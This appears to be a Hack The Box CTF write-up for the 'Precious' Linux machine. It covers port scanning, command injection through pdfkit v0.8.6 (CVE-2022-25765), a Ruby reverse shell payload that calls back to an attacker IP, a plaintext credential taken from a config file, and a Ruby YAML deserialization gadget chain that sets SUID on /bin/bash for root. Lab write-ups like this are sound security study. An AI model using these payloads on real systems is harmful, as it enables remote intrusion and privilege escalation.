


# Precious

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Easy |
| **Topics** | pdfkit v0.8.6, YAML Malicious File, YML Privilege Escalation, YAML Vulnerability |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

**All Ports**

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -v 10.10.11.189 -oN AllPorts
```

Result:

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

**Full TCP Scan:** 

```bash
nmap -sCV -p 22,80 10.10.11.189 -oN FullScan
```

Result: 

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Note: Looks like that virtual hosting is being used om this server. 

### HTTP Enumeration:

**Gobuster: Directory mode**

```bash
gobuster vhost -u http://precious.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

No results

**Gobuster: Subdomain mode**

```bash
gobuster dns -d precious.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50
```

No results

# Initial Access

After the initial enumeration we found the ports 22, and 80 opened. For now, we will focus on Port 80 as usually contains Web Vulnerabilities. 

However, before accessing the URL in the browser, we need to add the name of the host in the  `/etc/hosts` as the previous scans reveal that web server is using Virtual hosting. 

```bash
|_http-title: Did not follow redirect to http://precious.htb/
```

Website: 



Based on the Website information, it looks like that server takes an external URL and the converts the content of the webpage into a PDF. 

Checking the technologies being used we can see the Nginx 1.18 and Phusion Passenger 6.0.15, however, none of those have known vulnerabilities at this time. 


Let’s try to test the website function (Web to PDF) by starting a HTTP server in our side using Python and then proceed to make a request from the Website: 


Request:


Result:


As we can see, it takes the content of our webserver and converts it into a PDF.

Checking the properties of the PDF, we will see that it was created using a module known as `pdfkit v0.8.6`


By examining quickly on searchsploit, we will see an exploit for this module:


Exploit options: 

```bash
└─$ python exploit-CVE-2022–25765.py      
UNICORD Exploit for CVE-2022–25765 (pdfkit) - Command Injection

Usage:
  python3 exploit-CVE-2022–25765.py -c <command>
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port>
  python3 exploit-CVE-2022–25765.py -c <command> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -h

Options:
  -c    Custom command mode. Provide command to generate custom payload with.
  -s    Reverse shell mode. Provide local IP and port to generate reverse shell payload with.
  -w    URL of website running vulnerable pdfkit. (Optional)
  -p    POST parameter on website running vulnerable pdfkit. (Optional)
  -h    Show this help menu.
```

Based on the exploit, we can create a payload to be executed on the website. 

Let’s try first if we have the ability execute commands by using the option `-c`

```bash
python exploit-CVE-2022–25765.py -c "ping 10.10.14.83"
```


Payload:

```bash
http://%20`ping 10.10.14.83`
```

Then, start a TCPDump listener in our kali to see the ICMP packets, if we received at least one request, that means that the server is executing our command (payload):

TCPDump: 

```bash
sudo tcpdump -i tun0 icmp
```

Execute the command: 


Success! From TCPDump we will the requests ICMP coming


This confirms that PDFkit is vulnerable to Command Injection. 

Checking the other options from the exploit, we will see that it can create a payload for reverse shell using the option `-s`

```bash
  -s    Reverse shell mode. Provide local IP and port to generate reverse shell payload with.
```

Command: 

```bash
python exploit-CVE-2022–25765.py -s 10.10.14.83 4444
```

Payload:

```bash
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.83","4444"))'`
```

Before executing the payload, be ready to catch the reverse shell


Success! We got a reverse shell:


# Privilege Escalation

### Low Level Privilege:

 Before getting root acess, we need to pivot to another user as we are currently logged as “ruby”.

After enumerating files and directories, we will find something interesting in the `home` directory of “Ruby”, a folder called `bundle`


Checking the contents we will see a file that contains the user henry and its password:


User credentials:

```bash
"henry:Q3c1AqGHtoI0aXAYFH"
```

Now, we can do a SSH or just perform a SU command to change to Henry user:


### High Level Privileges:

Let’s enumerate the SUDO permissions available for Henry using `sudo -l`


We will found a command that can be executed as root without providing the password

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Before executing the command, let’s examine the content of `update_dependencies.rb`

Content:

```bash
cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Based on the content of the file, this code is comparing the installed dependencies of a Ruby application with those specified in a YAML file called "dependencies.yml".

However, based on the code, the path for “dependencies.yml” is taken as a relative route, not absolute. 

```sql
Absolute path: /opt/sample/dependencies.yml
Relative path: dependencies.yml
```

With this in mind, we can create a `dependencies.yml` on any location where we have permissions to write and inject malicious code into the file. This file will be later read by the ruby script according to the instruction `YAML.load(File.read("dependencies.yml"))`

Checking the repo from PayloadAllTheThings we will find a good payload to exploit this vulnerability.

Reference: [PayloadsAllTheThings/Insecure Deserialization/Ruby.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)



Checking the version of Ruby we can see the version as 2.7.4


Hence. the payload will be the second one, we can modify the command to be executed (id) with `chmod +s /bin/bash`

```sql
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```

Note: for better compability, encode the command in base64

Create the file and add the payload:


Execute the sudo command and verify the permissions of the bash:


Success! We were able to add the SUID bit to the bash. 

Invoke the privilege bash:

